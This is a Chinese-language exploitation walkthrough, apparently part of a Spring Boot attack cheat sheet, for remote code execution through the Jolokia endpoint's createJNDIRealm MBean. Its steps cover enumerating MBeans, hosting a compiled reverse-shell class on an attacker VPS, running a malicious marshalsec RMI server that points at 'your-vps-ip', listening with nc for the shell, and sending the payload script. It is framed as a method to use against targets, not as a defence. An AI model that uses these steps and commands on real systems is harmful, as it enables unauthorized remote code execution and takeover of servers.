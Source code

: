 ### 0x05：jolokia Realm JNDI RCE

#### 利用条件：

*   目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
    
*   目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
    
*   目标可以请求攻击者的服务器（请求可出外网）
    
*   普通 JNDI 注入受目标 JDK 版本影响，jdk <6u141/7u131/8u121(RMI)，但相关环境可绕过
    

#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。

##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 Java 示例代码 `JNDIObject.java`。

##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

将步骤二中编译好的 class 文件拷贝到 HTTP 服务器根目录。

##### 步骤四：架设恶意 rmi 服务

下载 marshalsec ，使用下面命令架设对应的 rmi 服务：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389

```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```
nc -lvp 443

```

##### 步骤六：发送恶意 payload

根据实际情况修改 springboot-realm-jndi-rce.py 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。
